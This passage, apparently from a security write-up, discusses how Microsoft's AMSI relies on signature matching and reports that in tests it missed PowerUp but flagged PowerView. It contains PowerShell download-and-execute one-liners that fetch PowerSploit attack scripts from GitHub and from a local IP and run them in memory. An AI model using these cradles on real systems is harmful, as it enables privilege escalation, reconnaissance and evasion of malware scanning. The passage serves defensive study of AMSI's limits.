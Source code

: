 > For more theory on AMSI and potential improvements, please refer to this amazing research:
> 
> - [AMSI-Based Detection of Malicious PowerShell Code][3]

At this point, AMSI might appear like a very good defence line... Well, not really. The main weak point identified so far is that AMSI is mostly based on signature/pattern/string matching:

Indeed, in a few tests, AMSI could not detect the use of PowerUp at all:

> ```powershell
> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
> Invoke-AllChecks
> ```

<img style="display: block;margin-left: auto;margin-right: auto;" src="assets/4.gif">

But it had more luck with PowerView:
> ```powershell
> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
> IEX (New-Object Net.WebClient).DownloadString('http://192.168.152.100/PowerView.ps1')
> Import-Module C:\payloads\PowerView.ps1')
> ```
